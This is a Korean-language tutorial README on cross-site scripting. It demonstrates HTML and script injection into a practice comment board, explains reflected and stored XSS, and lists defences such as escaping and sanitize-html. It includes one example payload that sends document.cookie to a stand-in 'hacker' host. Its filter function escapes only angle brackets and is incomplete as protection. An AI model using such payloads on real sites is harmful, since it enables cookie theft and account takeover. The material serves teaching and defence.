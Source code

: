 # XSS (Cross Site Scripting)

#### 작성자 : [김우영](https://github.com/0x000613)

## 1. XSS란 무엇인가?

XSS는 Cross Site Scripting이라는 웹 공격기법의 약자입니다.

SQL Injection과 더불어 가장 흔하게 발생하며, 공격 시도 난이도에 비해 시스템에 막대한 영향을 줄 수 있는 취약점입니다.

XSS는 주로 웹 애플리케이션에서 일어나는 취약점으로 관리자가 아닌 권한이 없는 사용자가 웹 사이트에 악의적인 스크립트를 삽입하는 공격 기법입니다. XSS 공격은 대부분의 사용자가 글을 쓰고 읽을 수 있는 게시판에 주로 발생하지만, 사용자가 입력한 값을 웹페이지에 보여주는 항목(예를 들어 아이디, 닉네임등)에도 마찬가지로 적용이 가능합니다.

## 2. 실습

sample 디렉토리에 간단한 node.js 백엔드 서버를 생성한 후 진행합니다.

### 2.1 단순 HTML 문법을 사용한 공격 예시

1. `<h1>Hello, world</h1>`라는 일반적인 HTML `<h1>`태그를 사용하여 댓글을 작성했을 때 
   ![exam1](img/exam1.png)
2. `<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/2/2f/Google_2015_logo.svg/1200px-Google_2015_logo.svg.png" />`라는 이미지 삽입 태그인`<img>`를 사용하여 댓글을 작성하였을 때
   ![exam2](img/exam2.png)

이런식으로 기본적인 HTML태그를 삽입하는것만으로도 사이트에 문제 될만한 행위가 가능합니다.

### 2.2 자바스크립트를 삽입했을 때

기본적인 HTML태그를 삽입하는 XSS의 경우 보편적으로는 사이트의 흐름이나 레이아웃을 깨뜨리는것에서 그치지만 악의적인 스크립트가 삽입되었을 경우에는 중대한 보안 문제가 발생할 수 있습니다.

1. `alert()`함수를 이용한 alert창 발생시키기
   ![exam3](img/exam3.png)

2. 사이트를 이동시키는 XSS 스크립트

   `location.href="https://naver.com"`스크립트를 삽입해 네이버로 강제 이동된 모습
   ![exam4](img/exam4.png)

## 3. XSS 공격 유형

방금 알아본 XSS 공격기법은은 크게 두가지 종류로 나눌 수 있습니다.

1. Reflected XSS
   ![ReflectedXSS](img/ReflectedXSS.png)

   

   Reflected XSS 공격은 사용자에게 입력 받은 값을 서버에서 되돌려주는 서비스에서 발생합니다.
   예를 들어 사용자가 입력한 검색어를 그대로 노출시켜주는 웹사이트 혹은 사용자가 입력한 값을 에러 메세지에 포함하여 보여주는 웹사이트에서 Reflected XSS 공격 스크립트가 삽입뇌면, 서버가 사용자의 입력 값을 응답할 때 스크립트가 실행됩니다.
   보통 Reflected XSS는 공격자가 악의적인 스크립트와 함께 URL을 사용자에게 누르도록 유도하고, URL을 누른 사용자는 악의적인 스크립트가 실행되어어 공격당하게됩니다.

   만약 다음과 같은 공격 스크립트가 실행되게 된다면 (실습 예제 2.2.2의 `location.href`를 활용한 스크립트)

   ```javascript
   http://testweb?search=<script>location.href("http://hacker/getcookie/value="+ document.cookie);</script>
   ```

   해커는 자신의 서버로 사용자의 `document.cookie`즉 사용자의 쿠키를 탈취하여 자신의 서버로 전송하여 저장할 수 있게됩니다.
   

2. Stored XSS
   ![storedXSS](img/storedXSS.png)

가장 널리 자주 사용되는 XSS 기법이며 공격 순서는 다음과 같습니다.

1. 게시판과같이 사용자가 입력한 정보가 DBMS에 저장되는 웹서비스를 타겟으로 발생합니다.

2. 공격자는 공격 스크립트를 게시판에 작성하게되고, 서버는 이를 DB에 저장하게됩니다.
3. 정상 유저가 게시판 목록을 로드할 때 서버는 DB에 저장되어있던 악성 스크립트를 반환하게됩니다.
4. 정상 유저의 웹브라우저가 DOM을 해석하는 단계에서 악성 스크립트가 실행됩니다.

## 4. XSS 방어 실패시 발생하는 문제점

1. 가장 큰 문제점은 대부분의 XSS 공격은 사용자나 관리자의 계정을 모르더라도 쿠키 탈취 및 세션 하이재킹으로 공격자가 회원 권한을 가지게 된다는 것입니다.
2. 자바스크립트는 웹 요소를 자유자재로 컨트롤이 가능하기에, 정상 유저에게 거짓된 페이지를 노출시키거나 사이트 이용 자체를 불가하도록 하는 등의 문제를 발생시킬 수 있습니다.

## 5. XXS 공격 대응 방법

1. 입력 값 검증
   사용자가 입력한 값에 대한 검증절차를 거치도록 하며, 절대로 사용자가 입력한 값 그대로를 사용하지 않습니다. 이는 SQL Injection과 마찬가지로 XSS 공격 대응의 가장 기본적인 방법입니다.

   다음 함수는 XSS를 필터링하는 정규표현식 함수입니다.

   ```javascript
   function XSSFilter(content) {
     return content.replace(/</g, "&lt;").replace(/>/g, "&gt;");
   }
   ```

2. Anti XSS, XSS 방어 라이브러리 사용
   이미 만들어진 Anti XSS 라이브러리를 사용함으로써 보다 수월하게 XSS 공격을 방어할 수 있으며.
   대부분의 라이브러리가 입력값 검증 기능 역시 제공합니다.
   - 대표적인 node.js의 Anti XSS 라이브러리는 [sanitize-html](https://www.npmjs.com/package/sanitize-html) 입니다.
